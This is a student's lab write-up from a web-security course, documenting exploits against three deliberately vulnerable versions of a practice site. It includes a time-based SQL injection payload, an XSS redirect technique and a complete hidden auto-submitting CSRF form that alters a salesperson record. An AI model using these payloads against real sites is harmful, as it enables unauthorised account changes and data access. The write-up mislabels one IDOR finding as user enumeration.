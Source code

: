 # Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking
<img src="https://i.imgur.com/1g4prFK.gif"/>
* The session ID is found from the chrome developer tools console. 
* The attacker changes the session ID using the provided change_session_id.php.
* The attacker is now able to access the victims session.

Vulnerability #2: SQL Injection
<img src="https://i.imgur.com/3keNk4f.gif" />
* The exploit exists in the salesperson.php page.
* The exploit is done via the url. 
* Using the given ```' OR SLEEP(5)=0--'``` statement, the page proceeds to wait 5 seconds before returning.


## Green

Vulnerability #1: XSS
<img src="https://i.imgur.com/wJbBp7O.gif"/>
* This exploit is done via the feedback section. 
* The XSS executes when a privileged user accesses the feedback page in the /staff/feedback/ section.


Vulnerability #2: User Enumeration
<img src="https://i.imgur.com/EOH0sFs.gif"/>
* Using the given username "jmonroe99" we can see that a valid username shows a bold error.
* An incorrect username shows a not-bolded error.

Bonus: XSS
<img src="https://i.imgur.com/zx8kPL7.gif"/>
* This exploit is the same as the first XSS found.
* The ```alert()``` statement is replaced with a ```window.location.assign()``` statement.

## Red

Vulnerability #1: CSRF
<img src="https://i.imgur.com/WLeB4Gp.gif"/>
* The attacker submits a malicious webpage into the feedback section.
* The victim visits the url from the feedback.
* The malicious webpage silently submits a form to the edit section of the victims page.
``` 
<!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p> you should secure your site</p>
		<style>
		.hide-form {
			display: none;
		}
		</style>
		<form action="https://104.154.100.160/red/public/staff/salespeople/edit.php?id=7" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="Not Samuel" /><br />
			<input type="text" name="last_name" value="Not Hunter" /><br />
			<input type="text" name="phone" value="111-222-3333" /><br />
			<input type="text" name="email" value="changed_your_email_again@attack.com" /><br />
		</form>
		<script>
		$(function() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		});
		</script>
</html>
```

Vulnerability #2: User Enumeration
<img src="https://i.imgur.com/7IZ8N9k.gif"/>
* By directly changing the 'id' parameter in the URL we can find salespersons not mentioned on the page.
* ID's 10 and 11 shouldn't be accessible by everyone. 


## Notes

Describe any challenges encountered while doing the work

